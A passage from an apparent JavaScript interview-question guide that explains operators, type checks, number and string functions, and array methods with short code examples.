|Bitwise AND |	a & b	 |Returns a one in each bit position for which the corresponding bits of both operands are ones.|
|Bitwise OR	 |a | b	   |Returns a one in each bit position for which the corresponding bits of either or both operands are ones.|
|Bitwise XOR |	a ^ b	 |Returns a one in each bit position for which the corresponding bits of either but not both operands are ones.|
|Bitwise NOT |	~ a	   |Inverts the bits of its operand.|
|Left shift	 |a << b	 |Shifts a in binary representation b (< 32) bits to the left, shifting in zeroes from the right.|
|Sign-propagating right shift|	a >> b |Shifts a in binary representation b (< 32) bits to the right, discarding bits shifted off.|
|Zero-fill right shift |	a >>> b	 | Shifts a in binary representation b (< 32) bits to the right, discarding bits shifted off, and shifting in zeroes from the left.|

**Examples:**

|Operation|	Result	  |Same as	    |Result    |
|---------|-----------|-------------|----------|
|5 & 1    | 1	        |0101 & 0001	|0001      |
|`5 | 1` 	| 5         |0101 | 0001  |0101      |
|`~ 5`    |-6	        |~0101	      |1010      |
|`5 << 1`	| 10        |0101 << 1  	|1010      |
|`5 ^ 1`	| 4         |0101 ^ 0001  |0100      |
|`5 >> 1`	| 2	        |0101 >> 1	  |0010      |
|5 >>> 1	| 2	        |0101 >>> 1	  |0010      |

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-bitwise-operators-nnz00d?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between `==` and `===` operators?

JavaScript provides both strict (`===`, `!==`) and type-converting (`==`, `!=`) equality comparison. The strict operators takes type of variable in consideration, while non-strict operators make type correction/conversion based upon values of variables. The strict operators follow the below conditions for different types,

1. Two strings are strictly equal when they have the same sequence of characters, same length, and same characters in corresponding positions.
2. Two numbers are strictly equal when they are numerically equal. i.e, Having the same number value.
   There are two special cases in this,
   1. NaN is not equal to anything, including NaN.
   2. Positive and negative zeros are equal to one another.
3. Two Boolean operands are strictly equal if both are true or both are false.
4. Two objects are strictly equal if they refer to the same Object.
5. Null and Undefined types are not equal with `===`, but equal with `==`. i.e,
    `null === undefined` --> `false` but `null == undefined` --> `true`

**Example:**

```js
0 == false // true
0 === false // false
1 == "1" // true
1 === "1" // false
null == undefined // true
null === undefined // false
"0" == false // true
"0" === false // false
[] === [] // false, refer different objects in memory
{} === {} // false, refer different objects in memory
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-comparison-0y16ii?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is typeof operator?

In JavaScript, the typeof operator returns the data type of its operand in the form of a string. The operand can be any object, function, or variable.

**Example:**

```js
console.log(typeof undeclaredVariable); // "undefined"

let a;
console.log(typeof a); // "undefined"

const b = "Hello World";
console.log(typeof b); // "string"

const c = 42;
console.log(typeof c); // "number"

const d = 3.1415;
console.log(typeof d); // "number"

const e = true;
console.log(typeof e); // "boolean"

const f = null;
console.log(typeof f); // "object"

const g = undefined;
console.log(typeof g); // "undefined"

const h = { b: "c" };
console.log(typeof h); // "object"

const i = function () {
  return 10;
};

console.log(typeof i); // "function"
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-typeof-jesw53?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is an Unary operator?

The unary(+) operator is used to convert a variable to a number. If the variable cannot be converted, it will still become a number but with the value NaN.

**Example:**

```js
var x = "100";
var y = +x;
console.log(typeof x, typeof y); // string, number

var a = "Hello";
var b = +a;
console.log(typeof a, typeof b, b); // string, number, NaN
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-unary-operator-ld2luh?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the purpose of delete operator?

The delete keyword is used to delete the property as well as its value.

**Example:**

```js
const user = { name: "Sadhika Chaudhuri", age: 24 };
delete user.age;

console.log(user); // { name: "Sadhika Chaudhuri" }
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a conditional operator in javascript?

The conditional (ternary) operator is the only JavaScript operator that takes three operands which acts as a shortcut for if statement.

**Syntax:**

```js
<condition> ? <value1> : <value2>;
```

**Example:**

```js
const isAuthenticated = false;

console.log(isAuthenticated ? 'Hello, welcome' : 'Sorry, you are not authenticated');
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Can you apply chaining on conditional operator?

Yes, you can apply chaining on conditional operator similar to if … else if … else if … else chain.

**Example:**

```js
function getValue(someParam) {
  return condition1 ? value1
    : condition2 ? value2
    : condition3 ? value3
    : value4;
}

// The above conditional operator is equivalent to:
function getValue(someParam) {
  if (condition1) {
    return value1;
  } else if (condition2) {
    return value2;
  } else if (condition3) {
    return value3;
  } else {
    return value4;
  }
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between `typeof` and `instanceof` operator?

The `typeof` operator checks if a value has type of primitive type which can be one of `boolean`, `function`, `object`, `number`, `string`, `undefined`, `symbol`, or `bigint`.

**Example:**

```js
const x = "Hello World";
const y = new String("Hello World");

typeof x; // returns 'string'
typeof y; // returns 'object'
```

The `instanceof` is a binary operator, accepting an object and a constructor. It returns a boolean indicating whether or not the object has the given constructor in its prototype chain.

```js
const a = "Hello World";
const b = new String("Hello World");

a instanceof String; // returns false
b instanceof String; // returns true
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-typeof-operator-9uejl1?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the output of below spread operator array?

```js
[...'Hello']
```

**Output**:  ['H', 'e', 'l', 'l', 'o']  

**Explanation**: The string is an iterable type and the spread operator with in an array maps every character of an iterable to one element. Hence, each character of a string becomes an element within an Array.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the nullish coalescing operator (`??`) in JavaScript?

The **nullish coalescing operator** (`??`) returns the right-hand side operand when the left-hand side operand is `null` or `undefined`. Otherwise, it returns the left-hand side operand. Unlike `||`, it does **not** treat `0`, `false`, or `""` as falsy.

**Syntax:**

```js
leftExpr ?? rightExpr
```

**Example:**

```js
console.log(null ?? 'default');      // 'default'
console.log(undefined ?? 'default'); // 'default'
console.log(0 ?? 'default');         // 0  (0 is NOT null/undefined)
console.log('' ?? 'default');        // '' (empty string is NOT null/undefined)
console.log(false ?? 'default');     // false

// Practical use: provide a fallback for a missing config value
const config = { timeout: 0 };
const timeout = config.timeout ?? 3000;
console.log(timeout); // 0 (not 3000, because 0 is a valid value)
```

**Nullish coalescing assignment (`??=`):**

```js
let user = { name: null };
user.name ??= 'Anonymous';
console.log(user.name); // 'Anonymous'
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are logical assignment operators in JavaScript?

Logical assignment operators (ES2021) combine a logical operator with assignment. There are three:

| Operator | Equivalent to         | Description |
|----------|-----------------------|-------------|
| `&&=`    | `a && (a = b)`        | Assigns `b` to `a` only if `a` is **truthy** |
| `\|\|=`  | `a \|\| (a = b)`      | Assigns `b` to `a` only if `a` is **falsy** |
| `??=`    | `a ?? (a = b)`        | Assigns `b` to `a` only if `a` is **null or undefined** |

**Example:**

```js
// &&= (AND assignment)
let a = 1;
a &&= 2;
console.log(a); // 2 (a was truthy, so assigned)

let b = 0;
b &&= 2;
console.log(b); // 0 (b was falsy, not assigned)

// ||= (OR assignment)
let c = null;
c ||= 'default';
console.log(c); // 'default' (c was falsy)

let d = 'existing';
d ||= 'default';
console.log(d); // 'existing' (d was truthy, not reassigned)

// ??= (Nullish assignment)
let e = null;
e ??= 'fallback';
console.log(e); // 'fallback'

let f = 0;
f ??= 'fallback';
console.log(f); // 0 (0 is not null/undefined)
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 5. NUMBERS

<br>

## Q. How do you generate random integers?

The `Math.random()` function returns a floating-point, pseudo-random number in the range 0 to less than 1 (inclusive of 0, but not 1). For example, if you want generate random integers between 1 to 100, the multiplication factor should be 100,

```js
// Example 01:
Math.random(); // returns a random integer between 0 to 1

// Example 02:
Math.floor(Math.random() * 100) + 1; // returns a random integer from 1 to 100

// Example 03:
function getRandomNumber(max) {
  return Math.floor(Math.random() * max) + 1;
}

console.log(getRandomNumber(10)); // returns a random integer from 1 to 10
```

**Random integer between min and max (inclusive):**

```js
function randomInt(min, max) {
  return Math.floor(Math.random() * (max - min + 1)) + min;
}

console.log(randomInt(1, 6));   // simulates a dice roll: 1–6
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-random-number-slllvd?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is isNaN?

The `isNaN()` function determines whether a value is NaN ( Not a Number ) or not. This function returns `true` if the value equates to NaN. The `isNaN()` method converts the value to a number before testing it.

**Example:**

```js
isNaN('Hello') // true

isNaN('100') // false

typeof NaN // Number

Number.isNaN('Hello'); // false
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-isnan-6w1huz?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the purpose of isFinite function?

The global `isFinite()` function determines whether the passed value is a finite number. It returns `false` if the value is `+infinity`, `-infinity`, or `NaN` (Not-a-Number), otherwise it returns true.

```js
isFinite(Infinity);  // false
isFinite(NaN);       // false
isFinite(-Infinity); // false

isFinite(100);  // true
isFinite(1/0); // false

Number.isFinite(0 / 0); // false
Number.isFinite(null); // false
Number.isFinite("123") // false
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-isfinite-5sl988?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain NEGATIVE_INFINITY in JavaScript?

The `Number.NEGATIVE_INFINITY` property represents the negative Infinity value.

**Syntax:**

```js
Number.NEGATIVE_INFINITY
```

* Negative infinity is a number in javascript, which is derived by 'dividing negative number by zero'.
* A number object needs not to be created to access this static property.
* The value of negative infinity is the same as the negative value of the infinity property of the global object.

```js
/**
 * NEGATIVE_INFINITY
 */

console.log(-10/0); // -Infinity
console.log(Number.NEGATIVE_INFINITY); // -Infinity
console.log(Number.MAX_VALUE + Number.MAX_VALUE); // Infinity
console.log(-2 * Number.MAX_VALUE); // -Infinity

console.log("Math.pow(10, 1000): " + Math.pow(10, 1000)); // Infinity 
console.log("Math.log(0): " + Math.log(0)); // -Infinity

console.log(Number.NEGATIVE_INFINITY === -2 * Number.MAX_VALUE); // true
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-negative-infinity-1gmh0r?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 6. STRING

<br>

## Q. What is the difference between slice and splice?

**1. slice():**

The `slice()` method returns a new array with a copied slice from the original array. The first optional argument is the beginning index and the second optional argument is the ending index (non-inclusive).

**Example:**

```js
let languages = [ "JavaScript", "Python", "Java", "PHP" ];

languages.slice(1,3); // ["Python", "Java"]
languages.slice(2); // (from index 2 until the end of the array).
// ["Java", "PHP"]

console.log(languages); // the original array is not mutated.
// [ "JavaScript", "Python", "Java", "PHP" ]
```

**2. splice():**

The `splice()` method changes the content of the array in place and can be used to add or remove items from the array.
When only one argument is provided, all the items after the provided starting index are removed from the array.

**Example:**

```js
let numbers = [10, 20, 30];

numbers.splice(2, 1, 40, 50); // returns removed array:[30]

console.log(numbers); // Original array is mutated.
// returns: [10, 20, 40, 50]
```

**Difference:**

| Slice | Splice |
|---- | ---------|
| Doesn\'t modify the original array(immutable)  | Modifies the original array(mutable) |
| Returns the subset of original array | Returns the deleted elements as array  |
| Used to pick the elements from array | Used to insert or delete elements to/from array|

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-slice-vs-splice-xm7c54?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you check whether a string contains a substring?

There are 3 fastest ways to check whether a string contains a substring or not,  

**1. Using RegEx:**

The regular expression `test()` method checks if a match exists in a string. This method returns `true` if it finds a match, otherwise, it returns `false`.

```js
let str = "JavaScript, Node.js, Express.js, React.js, MongoDB";
let exp1 = /MongoDB/g;
let exp2 = /Ajax/;

exp1.test(str); // true
exp2.test(str); // false
```

**2. Using indexOf:**

The `indexOf()` method is case-sensitive and accepts two parameters. The first parameter is the substring to search for, and the second optional parameter is the index to start the search from (default index is 0).

```js
let str = "JavaScript, Node.js, Express.js, React.js, MongoDB";

str.indexOf('MongoDB') !== -1 // true
str.indexOf('PHP') !== -1 // false
str.indexOf('Node', 5) !== -1 // true
```

**3. Using includes: (Modern Standard)**

The `includes()` is also case-sensitive and accepts an optional second parameter, an integer which indicates the position where to start searching for.

```js
let str = "JavaScript, Node.js, Express.js, React.js, MongoDB";

str.includes('MongoDB') // true
str.includes('PHP') // false
str.includes('Node', 5) //true
```

**Use Cases:**

| Use Case | Method | Example |
|---|---|---|
| Simple readability check | `includes()` | Check if a product description contains a keyword |
| Legacy browser support | `indexOf()` | Check if URL contains a query param |
| Pattern-based search | RegEx `test()` | Check if input matches a specific format |

```js
// 1. Search bar — check if item name contains user query
const query = "react";
const items = ["React.js Tutorial", "Node.js Guide", "React Native Basics"];
const results = items.filter(item => item.toLowerCase().includes(query.toLowerCase()));
// ["React.js Tutorial", "React Native Basics"]

// 2. URL parsing — check if a query param exists
const url = "https://example.com/search?q=javascript&page=2";
const hasQuery = url.indexOf('?q=') !== -1; // true

// 3. Input validation — check if email contains '@' and '.'
const email = "user@example.com";
const isValidEmail = /^[^\s@]+@[^\s@]+\.[^\s@]+$/.test(email); // true
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-substring-su64zr?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you trim a string in javascript?

The `trim()` method removes whitespace from both sides of a string. JavaScript provides 3 simple functions on how to trim strings.

**1. string.trim():**

The `string.trim()` removes sequences of whitespaces and line terminators from both the start and the end of the string.

```js
const name = "  Karan Talwar  ";
console.log(name.trim()); // => 'Karan Talwar'

const phoneNumber = "\t  80-555-123\n ";
console.log(phoneNumber.trim()); // => '80-555-123'
```

**2. string.trimStart():**

The `string.trimStart()` removes sequences of whitespaces and line terminators only from the start of the string.

```js
const name = "   Karan Talwar  ";
console.log(name.trimStart()); // => "Karan Talwar  "

const phoneNumber = "\t  80-555-123\n ";
console.log(phoneNumber.trimStart()); // => "80-555-123 "
```

**3. string.trimEnd():**

The `string.trimEnd()` removes sequences of whitespaces and line terminators only from the end of the string.

```js
const name = "  Karan Talwar ";
console.log(name.trimEnd()); // => " Karan Talwar"

const phoneNumber = "\t  80-555-123\n ";
console.log(phoneNumber.trimEnd()); // => " 80-555-123"
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-trim-4mo5bi?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is eval function in javascript?

The `eval()` function evaluates JavaScript code represented as a string. The string can be a JavaScript expression, variable, statement, or sequence of statements.

```js
console.log(eval('10 + 20')); // 30

let x = 10;
let y = 20;
let z = '50';
eval('x + y + 1'); // returns 31
eval(z);           // returns 50
```

If the argument of `eval()` is not a string, `eval()` returns the argument unchanged. In the following example, the String constructor is specified and eval() returns a String object rather than evaluating the string.

```js
eval(new String('10 + 20')); // returns a String object containing "10 + 20"
eval('10 + 20');             // returns 30


// work around
let expression = new String('10 + 20');
eval(expression.toString()); // returns 30
```

Warning: *Executing JavaScript from a string is an enormous security risk. It is far too easy for a bad actor to run arbitrary code when you use eval().*

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-eval-p9fxgs?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you check if a string starts with another string?

You can use `String.prototype.startsWith()` method to check if a string starts with another string or not. It is fully supported in all modern browsers.

```js
let str = "Hello World";

console.log(str.startsWith("Hello")); // true
console.log(str.startsWith("World")); // false
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-startswith-tvq7i5?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are `replaceAll()`, `padStart()` and `padEnd()` string methods?

**1. String.prototype.replaceAll():**

The `replaceAll()` method returns a new string with all matches of a pattern replaced by a replacement. Unlike `replace()`, it replaces every occurrence without needing a global regex flag.

```js
const text = 'I like cats. Cats are cute cats.';
console.log(text.replace('cats', 'dogs'));    // 'I like dogs. Cats are cute cats.' (only first)
console.log(text.replaceAll('cats', 'dogs')); // 'I like dogs. Cats are cute dogs.'
```

**2. String.prototype.padStart():**

The `padStart()` method pads the current string with another string from the **start** until it reaches the given length.

```js
console.log('5'.padStart(3, '0'));    // '005'
console.log('hello'.padStart(8));     // '   hello' (default pad is space)
console.log('42'.padStart(5, '*'));   // '***42'
```

**3. String.prototype.padEnd():**

The `padEnd()` method pads the current string with another string from the **end** until it reaches the given length.

```js
console.log('5'.padEnd(3, '0'));    // '500'
console.log('hello'.padEnd(8));     // 'hello   '
console.log('42'.padEnd(5, '-'));   // '42---'
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 7. ARRAY

<br>

## Q. Explain arrays in JavaScript?

JavaScript array is an object that represents a collection of similar type of elements. It can holds values (of any type) not particularly in named properties/keys, but rather in numerically indexed positions.

**Syntax:**

```js
const array_name = [item-1, item-2, item-3, ...];    
```

**Example 01:** Creating an array

```js
// array of numbers
const numbers = [10, 20, 30, 40, 50];

// using new keyword
const numbers = new Array(10, 20, 30, 40, 50);

// array of strings
let fruits = ["Apple", "Orange", "Plum", "Mango"];

// array of character
const numbers = Array.from("abc"); // ["a", "b", "c"]

// array of numbers
const numbers = Array.of(10, 20, 30); // [10, 20, 30]
```

**Common Methods**

| Category | Methods |
|----------|---------|
| Add/Remove | `push`, `pop`, `shift`, `unshift`, `splice` |
| Extract | `slice`, `flat`, `flatMap` |
| Search | `find`, `findIndex`, `indexOf`, `includes` |
| Iterate | `forEach`, `map`, `filter`, `reduce` |
| Sort/Order | `sort`, `reverse` |
| Combine | `concat`, `join` |

**Example 02:** Accessing array elements

```js
const numbers = [10, 20, 30, 40, 50];

// Transforming
console.log(numbers.map(n => n * 2)); // [20, 40, 60, 80, 100]

// Filtering
console.log(numbers.filter(n => n % 2 === 0)); // [10, 20, 30, 40, 50]

// Reducing
console.log(numbers.reduce((sum, n) => sum + n, 0)); // 150

// Searching
console.log(numbers.find(n => n > 30));  // 40
console.log(numbers.includes(30));  // true
```

**Example 03:** Adding new array elements

```js
let fruits = ["Apple", "Orange", "Plum", "Mango"];

fruits.push("Grapes");  // Adds a new element (Grapes) to fruits
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-array-y73m66?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are associative arrays in javascript?

JavaScript does not have built-in associative arrays in the way languages like PHP or literal dictionary structures do. Instead, JavaScript uses regular Objects or Maps to handle key-value pairs (associative behavior).

Associative arrays are basically objects in JavaScript where indexes are replaced by user-defined keys. They do not have a length property like a normal array and cannot be traversed using a normal for loop.

**Syntax:**

```js
const array_name = { key1: 'value1', key2: 'value2', key3: 'value3' }   
```

**Example:** Plain Object (most common)

```js
const employee = {
  id: 12345,
  name: "Sakshi Memon",
  email: "sakshi.memon@email.com"
};

// Accessing employee elements
console.log(employee.id); // 12345
console.log(employee.name); // Sakshi Memon

// Array Length 
console.log(Object.keys(employee).length); // 3

// Retrieve the elements
for (let key in employee) {
  console.log(key + " = " + employee[key]);
}

// Output
id = 12345 
name = Sakshi Memon 
email = sakshi.memon@email.com 
```

**Example:** `Map` (true associative structure)

```js
const map = new Map();
map.set("name", "Alice");
map.set(42, "answer");        // keys can be any type
map.set({ id: 1 }, "object key");

map.get("name");  // "Alice"
map.has(42);      // true
map.size;         // 3
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-associative-arrays-vxc4qc?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to calculate the length of the associative array?

**Method 1:** Using `Object.keys().length`

```js
const employee = {
  id: 12345,
  name: "Sakshi Memon",
  email: "sakshi.memon@email.com"
};

console.log(Object.keys(employee).length); // 3
```

**Method 2:** Using `Object.hasOwnProperty()`

```js
function getLength(object) {
  let count = 0;
  for (let key in object) {
    // hasOwnProperty method check own property of object
    if (object.hasOwnProperty(key)) count++;
  }
  return count;
}

console.log(getLength(employee)); // 3
```

**Method 3:** Using `Object.getOwnPropertyNames()`

```js
const employee = {
  id: 12345,
  name: "Sakshi Memon",
  email: "sakshi.memon@email.com"
};

Object.getOwnPropertyNames(employee).length; // 3
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-associative-arrays-qye2t1?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between Array and Array of Objects in JavaScript?

Objects represent a special data type that is mutable and can be used to store a collection of data (rather than just a single value). Arrays are a special type of variable that is also mutable and can also be used to store a list of values.

**Example:** Arrays

```js
const numbers = [10, 20, 30];

// Iterating through loop
for (let i = 0; i < numbers.length; i++) {
  console.log(numbers[i]);
}

// Pop an element from array
numbers.pop();
console.log("after pop(): " + numbers);
```

**Example:** Array of Objects

```js
const employees = [
  { id: 101, name: "Sakshi Memon", email: "sakshi.memon@email.com" },
  { id: 102, name: "Subhash Shukla", email: "subhash.shukla@email.com" },
  { id: 103, name: "Mohini Karpe", email: "mohini.karpe@email.com" }
];

// Using DOT notation
console.log(employees[0].name);

// Using delete keyword
delete employees[0];

// Iterating using for..in loop
for (let key in employees) {
  console.log(employees[key]);
}
```

**Difference:**

|S.No.  | Array   | Array of objects |
|-------|---------|------------------|
|1.	|Arrays are best to use when the elements are numbers.|	Objects are best to use when the elements strings |
|3.	|The elements can be manipulated using []. | The properties can be manipulated using both . ( DOT ) notation and [].|
|4.	|The elements can be popped out of an array using the pop() function.| The keys or properties can be deleted by using the delete keyword.|
|5.	|Iterating through an array is possible using For loop, For..in, For..of, and ForEach().| Iterating through an array of objects is possible using For..in, For..of, and ForEach().|

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-array-vs-object-w7wz7i?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain array methods [ join(), pop(), push(), shift(), unshift(), concat(), map(), filter(), reduce(), reduceRight(), every(), some(), indexOf(), lastIndexOf(), find(), findIndex(), includes() ]

**1. array.join()**:

The `join()` method creates and returns a new string by concatenating all of the elements in an array (or an array-like object), separated by commas or a specified separator string. If the array has only one item, then that item will be returned without using the separator.

```js
var elements = ['Fire', 'Air', 'Water'];

console.log(elements.join()); // Output: "Fire,Air,Water"
console.log(elements.join('')); // Output: "FireAirWater"
console.log(elements.join('-')); // Output: "Fire-Air-Water"
```

**2. array.pop()**:

The pop() method removes the last element from an array and returns that element. This method changes the length of the array.

```js
var plants = ['broccoli', 'cauliflower', 'kale'];

console.log(plants.pop()); // Output: "kale"
console.log(plants); // Output: Array ["broccoli", "cauliflower"]
console.log(plants.pop()); // Output: "cauliflower"
console.log(plants.pop()); // Output: "broccoli"
console.log(plants.pop()); // Output: "undefined"
```

**3. array.push()**:

The push() method adds one or more elements to the end of an array and returns the new length of the array.

```js
const animals = ['pigs', 'goats', 'sheep'];

const count = animals.push('cows');
console.log(count); // Output: 4
console.log(animals); // Output: Array ["pigs", "goats", "sheep", "cows"]
```

**4. array.shift()**:

The shift() method removes the first element from an array and returns that removed element. This method 
changes the length of the array.

```js
var fruits = ["Banana", "Orange", "Apple", "Mango"];
fruits.shift();
console.log(fruits) // Output: Array ["Orange", "Apple", "Mango"]
```

**5. array.unshift()**:

The unshift() method adds one or more elements to the beginning of an array and returns the new length of the array.

```js
var fruits = ["Banana", "Orange", "Apple"];
fruits.unshift("Mango","Pineapple");
console.log(fruits); // Output: Array ["Mango", "Pineapple", "Banana", "Orange", "Apple"]
```

**6. array.concat()**:

The concat() method is used to merge two or more arrays. This method does not change the existing arrays, but instead returns a new array.

```js
const array1 = ['a', 'b', 'c'];
const array2 = ['d', 'e', 'f'];

console.log(array1.concat(array2)); // Output: Array ["a", "b", "c", "d", "e", "f"]
```

**7. array.map()**:

The map() method creates a new array with the results of calling a provided function on every element in the calling array.

```js
var array1 = [1, 4, 9, 16];

// pass a function to map
const map1 = array1.map(x => x * 2); 

console.log(map1); // Output: Array [2, 8, 18, 32]
```

**8. array.filter()**:

The filter() method creates a new array with all elements that pass the test implemented by the provided function.

```js
var words = ['spray', 'limit', 'elite', 'exuberant', 'destruction'];

const result = words.filter(word => word.length > 6);

console.log(result); // Output: Array ["exuberant", "destruction"]
```

**9. array.reduce()**:

The reduce() method executes a reducer function (that you provide) on each element of the array, 
resulting in a single output value.

```js
const array1 = [1, 2, 3, 4];
const reducer = (accumulator, currentValue) => accumulator + currentValue;

console.log(array1.reduce(reducer)); // Output: 10
console.log(array1.reduce(reducer, 5)); // Output: 15
```

**10. array.reduceRight()**:

The reduceRight() method applies a function against an accumulator and each value of the array (from right-to-left) to reduce it to a single value.

```js
const array1 = [[0, 1], [2, 3], [4, 5]].reduceRight(
  (accumulator, currentValue) => accumulator.concat(currentValue)
);

console.log(array1); // Output: Array [4, 5, 2, 3, 0, 1]
```

**11. array.every()**:

The every() method tests whether all elements in the array pass the test implemented by the provided function. It returns a Boolean value. 

```js
function isBelowThreshold(currentValue) {
  return currentValue < 40;
}

var array1 = [1, 30, 39, 29, 10, 13];
console.log(array1.every(isBelowThreshold)); // Output: true
```

**12. array.some()**:

The some() method tests whether at least one element in the array passes the test implemented by the provided function. It returns a Boolean value.

```js
var array = [1, 2, 3, 4, 5];

var even = function(element) {
  // checks whether an element is even
  return element % 2 === 0;
};

console.log(array.some(even)); // Output: true
```

**13. array.indexOf()**:

The indexOf() method returns the first index at which a given element can be found in the array, or -1 if it is not present.

```js
var beasts = ['ant', 'bison', 'camel'];

console.log(beasts.indexOf('camel')); // Output: 2
console.log(beasts.indexOf('giraffe')); // Output: -1
```

**14. array.lastIndexOf()**:

The lastIndexOf() method returns the index within the calling String object of the last occurrence 
of the specified value, searching backwards from fromIndex. Returns -1 if the value is not found.

```js
var paragraph = 'The quick brown fox jumps over the lazy dog. If the dog barked, was it really lazy?';

var searchTerm = 'dog';

console.log('The index of the first "' + searchTerm + '" from the end is ' + paragraph.lastIndexOf(searchTerm));
// Output: "The index of the first "dog" from the end is 52"
```

**15. array.find()**:

The find() method returns the value of the first element in the provided array that satisfies the provided testing function.

```js
var array1 = [5, 12, 8, 130, 44];

var found = array1.find(function(element) {
  return element > 100;
});

console.log(found); // Output: 130
```

**16. array.findIndex()**:

The findIndex() method returns the index of the first element in the array that satisfies the provided testing function. Otherwise, it returns -1, indicating that no element passed the test.

```js
var array1 = [5, 12, 8, 130, 44];

function isLargeNumber(element) {
  return element > 20;
}

console.log(array1.findIndex(isLargeNumber)); // Output: 3
```

**17. array.includes()**:

The includes() method determines whether an array includes a certain value among its entries, returning true or false as appropriate.

```js
var array1 = [1, 2, 3];
console.log(array1.includes(2)); // Output: true

var pets = ['cat', 'dog', 'bat'];
console.log(pets.includes('at')); // Output: false
```

**18. array.at()**:

The `at()` method (ES2022) takes an integer and returns the item at that index. Negative integers count back from the last item.

```js
const fruits = ['Apple', 'Orange', 'Banana', 'Mango'];
console.log(fruits.at(0));  // Output: Apple
console.log(fruits.at(-1)); // Output: Mango (last element)
console.log(fruits.at(-2)); // Output: Banana
```

**19. array.flat()**:

The `flat()` method creates a new array with all sub-array elements concatenated into it recursively up to the specified depth.

```js
const nested = [1, [2, 3], [4, [5, 6]]];
console.log(nested.flat());    // Output: [1, 2, 3, 4, [5, 6]]
console.log(nested.flat(2));   // Output: [1, 2, 3, 4, 5, 6]
console.log(nested.flat(Infinity)); // Output: [1, 2, 3, 4, 5, 6]
```

**20. array.flatMap()**:

The `flatMap()` method maps each element using a mapping function, then flattens the result into a new array (one level deep).

```js
const sentences = ['Hello World', 'Foo Bar'];
console.log(sentences.flatMap(s => s.split(' '))); // Output: ['Hello', 'World', 'Foo', 'Bar']
```

**21. array.findLast()**:

The `findLast()` method (ES2023) iterates the array in reverse and returns the value of the first element that satisfies the provided testing function.

```js
const numbers = [5, 12, 8, 130, 44];
console.log(numbers.findLast(n => n > 10)); // Output: 44
```

**22. array.findLastIndex()**:

The `findLastIndex()` method (ES2023) iterates the array in reverse and returns the index of the first element that satisfies the provided testing function.

```js
const numbers = [5, 12, 8, 130, 44];
console.log(numbers.findLastIndex(n => n > 10)); // Output: 4
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the benefits of using spread syntax and how is it different from rest syntax?

Spread operator or Spread Syntax allow us to expand the arrays and objects into elements in the case of an array and key-value pairs in the case of an object.

**Example:**

```js
function sum(x, y, z) {
  return x + y + z;
}

const numbers = [1, 2, 3];
console.log(sum(...numbers));

// ES-5 way
console.log(sum.apply(null, numbers));
```

**Example:** Merge arrays

```js
const newBrands = ["Tesla", "Mahindra"];
const brands = ["Ford", "Honda", ...newBrands, "BMW"];

console.log(brands);
```

**Example:** Copy array/object

```js
let obj = { a: 10, b: 20, c: 30 };

// spread the object into a list of parameters
let objCopy = { ...obj };

// add new
obj.d = 40;

console.log(JSON.stringify(obj)); // { "a":10, "b":20, "c":30, "d":40 }
